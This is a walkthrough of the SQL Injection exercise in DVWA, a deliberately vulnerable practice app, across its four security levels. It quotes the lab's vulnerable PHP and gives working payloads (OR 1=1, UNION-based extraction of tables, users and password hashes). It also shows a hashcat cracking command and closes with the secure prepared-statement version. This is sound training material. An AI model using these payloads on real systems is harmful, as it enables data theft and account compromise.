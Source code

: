 # SQL Injection

## About

> A SQL injection attack consists of insertion or "injection" of a SQL query via the input data from the client to the application.<br/>
> A successful SQL injection exploit can read sensitive data from the database, modify database data (insert/update/delete), execute administration operations on the database (such as shutdown the DBMS), recover the content of a given file present on the DBMS file system (load_file) and in some cases issue commands to the operating system.<br/>
> SQL injection attacks are a type of injection attack, in which SQL commands are injected into data-plane input in order to effect the execution of predefined SQL commands.<br/>
> This attack may also be called "SQLi".

Source: DVWA Documentation

## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql1.png?raw=true">
</p>

Inserting `1'` will return an error, that means that SQL Injection could be possible.

Visiting the source code we can find:
```php
// Check database
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

// Get results
while( $row = mysqli_fetch_assoc( $result ) ) {
    // Get values
    $first = $row["first_name"];
    $last  = $row["last_name"];

    // Feedback for end user
    echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
}

mysqli_close($GLOBALS["___mysqli_ston"]); 
```

We can see that the `'$id'` is not validated or sanitized in any way, so we can inject the following: `1' OR 1=1;#`

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql2.png?raw=true">
</p>

With this payload we bypass the query using the quote symbol and add the logic operator `OR`, which will make the query to return between the id given or a true statement such as 1=1.
The pound sign `#` is used to comment the rest of the query.

So, the query executed will look like this:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1;#';"
```

To further exploit this vulnerability we can use the UNION method to extract more information:
```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT @@version, null#';"
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql8.png?raw=true">
</p>

Now we got the version of the database.
First, we need to enumerate the columns using `UNION SELECT null,null`, and we add null values until we will get a valid response. This is usually done to enumerate the number of columns returned, but in this case we already know that `first_name` and `last_name` are returned.
Keep in mind that `@@version` syntax will only work for MySQL dbs.

Using `database()` function we can find the name of the database.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql9.png?raw=true">
</p>

Now we can enumerate the tables, the columns and extract the values.
For the next queries I changed the format a little bit.	

```sql
1' UNION SELECT null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dvwa'#
```	

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql10.png?raw=true">
</p>

```sql
1' UNION SELECT null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users'#
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql11.png?raw=true">
</p>

```sql
1' UNION SELECT user, password FROM users#
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql12.png?raw=true">
</p>

We can use `hash-identifier` in order to find the hash format, and then we will brute-force it using `hashcat`.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql13.png?raw=true">
</p>

```
hashcat -m 0 password /usr/share/wordlists/rockyou.txt
```

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql14.png?raw=true">
</p>

## Medium Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql3.png?raw=true">
</p>

For the Medium security level we can not change the value of the parameter directly from the UI, but we can edit it with the Inspect Element option.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql15.png?raw=true">
</p>

Another method is to use a Proxy tool like Burp Suite to modify the HTTP request.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql4.png?raw=true">
</p>

We will add the payload without the quote because now the $id does not need anymore. Then we URL encode the payload and send it.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql5.png?raw=true">
</p>

The same enumeration using UNION method is still working.

Source code:
```php
// Get input
$id = $_POST[ 'id' ];

$id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

switch ($_DVWA['SQLI_DB']) {
    case MYSQL:
        $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
        $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

        // Get results
        while( $row = mysqli_fetch_assoc( $result ) ) {
            // Display values
            $first = $row["first_name"];
            $last  = $row["last_name"];

            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
        break;
```

What is different here is the presence of `mysqli_real_escape_string()` which is escaping the following characters:
```
NUL (ASCII 0), \n, \r, \, ', ", and CTRL+Z
```
The problem is that the quote is not needed anymore and the other symbols are not affecting us.

## High Security

For the High level of security the source code looks like this:
```sql
if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    switch ($_DVWA['SQLI_DB']) {
        case MYSQL:
            // Check database
            $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
            $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

            // Get results
            while( $row = mysqli_fetch_assoc( $result ) ) {
                // Get values
                $first = $row["first_name"];
                $last  = $row["last_name"];

                // Feedback for end user
                echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
            }

            ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
            break; 
```
For this exercise a new window for the input will open, so the input is transferred using another page.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql6.png?raw=true">
</p>

As we can see the `$id` is still sent unsecured.
In this query we have a `LIMIT 1` which will make the query to return only one record from the database, but this can still be commented using injection with `#` symbol.<br/>
In this case, the same payloads will work for High security level.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/SQL-Injection/!images/sql7.png?raw=true">
</p>

## Impossible Security

Source Code:
```php
<?php

if( isset( $_GET[ 'Submit' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $id = $_GET[ 'id' ];

    // Was a number entered?
    if(is_numeric( $id )) {
        $id = intval ($id);
        // Check the database
        $data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
        $data->bindParam( ':id', $id, PDO::PARAM_INT );
        $data->execute();
        $row = $data->fetch();
		
        // Make sure only 1 result is returned
        if( $data->rowCount() == 1 ) {
            // Get values
            $first = $row[ 'first_name' ];
            $last  = $row[ 'last_name' ];
		
            // Feedback for end user
            echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
        }
    }
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
```

For this case, an Anti-CSRF token was implemented, and the application verifies if the `$id` has a numerical value.